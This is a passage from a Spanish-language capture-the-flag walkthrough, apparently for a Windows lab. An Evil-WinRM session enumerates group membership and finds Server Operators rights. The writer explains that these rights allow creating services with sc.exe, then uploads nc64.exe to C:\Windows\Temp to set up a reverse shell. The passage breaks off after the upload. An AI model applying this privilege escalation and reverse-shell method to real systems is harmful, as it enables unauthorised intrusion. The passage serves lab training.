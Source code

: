 seguimos realizando una enumeración y con el comando whoami /all  vimos a los grupos que pertenecemos, también podemos verlo con el comando whoami /groups y vemos que pertenecemos al grupo Print Operators y Server Operators

```csharp
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Print Operators                    Alias            S-1-5-32-550 Mandatory group, Enabled by default, Enabled group
BUILTIN\Server Operators                   Alias            S-1-5-32-549 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

Revisando estos grupos en este artículo ****[Server Operators](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators)** nos dice que podemos: iniciar sesión en un servidor de forma interactiva, crear y eliminar recursos compartidos de red, iniciar y detener servicios, realizar copias de seguridad y restaurar archivos, formatear la unidad de disco duro de la computadora y apagar la computadora.

con la herramienta [**sc.exe**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config) podemos crear un servicio o  modificar uno que esté corriendo en el sistema, vamos a intentar crearnos un servicio que nos cargue el nc.exe para tener una reverse shell en nuestra máquina, pasamos al directorio Temp donde tenemos todos los permisos y subirmos el nc.exe poner el path de nuestro servicio 

```csharp
*Evil-WinRM* PS C:\Users\svc-printer\Documents> cd c:\Windows\Temp
*Evil-WinRM* PS C:\Windows\Temp> upload /mnt/angussMoody/Scripts/Windows/nc64.exe
Info: Uploading /mnt/angussMoody/Scripts/Windows/nc64.exe to C:\Windows\Temp\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Windows\Temp>
```
